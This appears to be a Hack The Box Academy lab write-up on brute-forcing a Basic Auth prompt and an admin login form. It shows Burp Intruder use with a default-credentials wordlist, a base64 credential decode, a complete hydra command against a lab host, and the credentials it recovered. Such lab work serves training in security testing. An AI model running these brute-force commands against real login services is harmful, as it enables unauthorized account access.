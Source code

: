 # Brute Force Skills Assessment Service Login  

[Skills Assessment Service Login](https://academy.hackthebox.com/module/57/section/516)  

>Target user: `Harry Potter`
>Target: `94.237.49.11:30154`  

>Website initial access is Basic Auth, and can Brute Force with Combined Wordlist.  

![skills assessment service login](/images/skills-assessment-service-login.png)  

>Using Burp Suite intruder with a wordlist that combine the username and password on single line as single payload.

![skills-assessment website burp intruder](/images/skills-assessment-website-burp-intruder.png)  

>Credentials discovered using the wordlist: `/usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt`

```
echo 'dXNlcjpwYXNzd29yZA==' | base64 -d;echo        
user:password
```

>Login Form Brute Force - Static User, and a Password Wordlist.  

>The HTML form name and web parameters from the login can be seen on Burp Suite Repeater request and response windows:  

![skills-assessment-website-burp-repeater](/images/skills-assessment-website-burp-repeater.png)  

```
hydra -L ../resources/demo-users.lst -P ../resources/demo-pass.lst -f 94.237.57.58 -s 36713 http-post-form "/admin_login.php:user=^USER^&pass=^PASS^:F=<form name='log-in'"
```  

>Web application login Credentials discovered using brute force: `user:harrypotter`  
